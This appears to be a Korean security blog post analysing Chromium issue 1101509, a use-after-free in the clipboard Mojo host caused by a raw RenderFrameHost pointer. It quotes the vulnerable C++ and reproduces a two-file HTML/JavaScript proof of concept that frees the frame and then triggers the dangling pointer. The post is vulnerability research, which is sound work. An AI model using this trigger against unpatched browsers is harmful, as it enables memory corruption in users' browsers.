 ```yaml
---
layout: post
author: "nevul37"
title: Real case of UaF in Clipboard 
---
```

[reference](https://bugs.chromium.org/p/chromium/issues/detail?id=1101509)  


Introduction
---
Issue 1101509를 짧게 소개하려고 한다.  
이 취약점은 RawClipboardHostImpl의 lifetime 때문에 일어나는 취약점이다.
  
Root Causes
---
ClipboardHostImpl은 다음과 같이 이루어져 있다.
```c++
ClipboardHostImpl::ClipboardHostImpl(
    RenderFrameHost* render_frame_host,
    mojo::PendingReceiver<blink::mojom::ClipboardHost> receiver)
    : receiver_(this, std::move(receiver)),
      clipboard_(ui::Clipboard::GetForCurrentThread()),
      clipboard_writer_(
          new ui::ScopedClipboardWriter(ui::ClipboardBuffer::kCopyPaste)) {
  // |render_frame_host| may be null in unit tests.
  if (render_frame_host) {
    render_frame_routing_id_ = render_frame_host->GetRoutingID();
    render_frame_pid_ = render_frame_host->GetProcess()->GetID();
  } else {
    render_frame_routing_id_ = MSG_ROUTING_NONE;
    render_frame_pid_ = ChildProcessHost::kInvalidUniqueID;
  }
}
void ClipboardHostImpl::Create(
    RenderFrameHost* render_frame_host,
    mojo::PendingReceiver<blink::mojom::ClipboardHost> receiver) {
  // Clipboard implementations do interesting things, like run nested message
  // loops. Use manual memory management instead of SelfOwnedReceiver<T> which
  // synchronously destroys on failure and can result in some unfortunate
  // use-after-frees after the nested message loops exit.
  auto* host = new ClipboardHostImpl(
      static_cast<RenderFrameHostImpl*>(render_frame_host),
      std::move(receiver));
  host->receiver_.set_disconnect_handler(base::BindOnce(
      [](ClipboardHostImpl* host) {
        base::SequencedTaskRunnerHandle::Get()->DeleteSoon(FROM_HERE, host);
      },
      host));
}
```

ClipboardHostImpl이 RenderFrameHost를 `raw pointer`로 갖고 있다. Create 함수에서 ClipboardHostImpl 객체를 생성할 때 `static_cast<RenderFrameHostImpl*>(render_frame_host)`을 인자로 넘겨주는 것을 확인할 수 있다. 해당 객체가 해제될 경우 `render_frame_host` 또한 같이 메모리에서 해제되어야 하지만 lifetime에 대한 어떠한 처리도 되어있지 않아 UaF가 발생하게 된다. 보통은 WebContentsObserver을 상속받게 하여 `render_frame_host`와 `Mojo interface`의 lifetime을 동일하게 맞춰주는 방법으로 패치를 진행한다.

PoC
---
reference에 올라온 PoC다.  
다음은 child iframe에 들어갈 내용이다. `poc_child.html`에서는 `RawClipboardHost`에 대한 handle을 획득하고. child와 parent에 대한 바인딩을 생성한다.
```html
<html>
        <script src="mojo_bindings.js"></script>
        <script src="third_party/blink/public/mojom/clipboard/raw_clipboard.mojom.js"></script>
        <script src="third_party/blink/public/mojom/clipboard/clipboard.mojom.js"></script>
    <button onclick="main()" style="width:300px;height:100px;font-size: 50px;" value="clickme">clickme</button>
    <script>
    function sleep(ms) {
        return new Promise(resolve => setTimeout(resolve, ms));
    }
    var kPwnInterfaceName = "pwn";
    var IntervalID = null; 
    function main(){
        if(!navigator.userActivation.isActive) return;
        navigator.permissions.request({name: 'clipboard-read'}, {name : 'clipboard-write'}).then(()=>{
            console.log("hello : "+navigator.userActivation.isActive);
            var pipe = Mojo.createMessagePipe();
            Mojo.bindInterface(blink.mojom.RawClipboardHost.name, pipe.handle1, "context", true); //Binding RawClipboard with childRFH
            Mojo.bindInterface(kPwnInterfaceName, pipe.handle0, "process"); //Pass the endpoint handle to the parent frame
        });
    }
    </script>
</html>
```
`poc.html`에서는 `poc_child.html`을 주소로 하는 iframe을 하나 생성하고 `MojoInterfaceInterceptor`로 child 소유의 `RawClipboardHost handle`을 parent frame으로 가져온다. 그 후, iframe을 제거하여 `render_frame_host`를 dangling 상태로 만들어 그 pointer을 획득한다. 그 후에는 `dangling pointer`를 이용해 UaF를 trigger 할 수 있다.
```html
<html>
        <script src="mojo_bindings.js"></script>
        <script src="third_party/blink/public/mojom/clipboard/raw_clipboard.mojom.js"></script>
    <body></body>
    <script>
    function allocateRFH(src) {
        var iframe = document.createElement("iframe");
        iframe.src = src;
        iframe.style = "position: absolute; height: 100%; border: none";
        document.body.appendChild(iframe);

        return iframe;
    }

    function deallocateRFH(iframe) {
        document.body.removeChild(iframe);
    }

    var kPwnInterfaceName = "pwn";
    async function trigger(){
        return new Promise((r)=>{
        frame = allocateRFH("poc_child.html");
        let interceptor = new MojoInterfaceInterceptor(kPwnInterfaceName, "process");
        interceptor.oninterfacerequest = function(e) {
            interceptor.stop();
            raw_clipboard_ptr = new blink.mojom.RawClipboardHostPtr(e.handle);
            deallocateRFH(frame);
            r(raw_clipboard_ptr);
        }
        interceptor.start();
        });
    }

    async function main(){

        var raw_clipboard_ptr = await trigger();

        await raw_clipboard_ptr.readAvailableFormatNames();

    }
    main();
    </script>
</html>
```
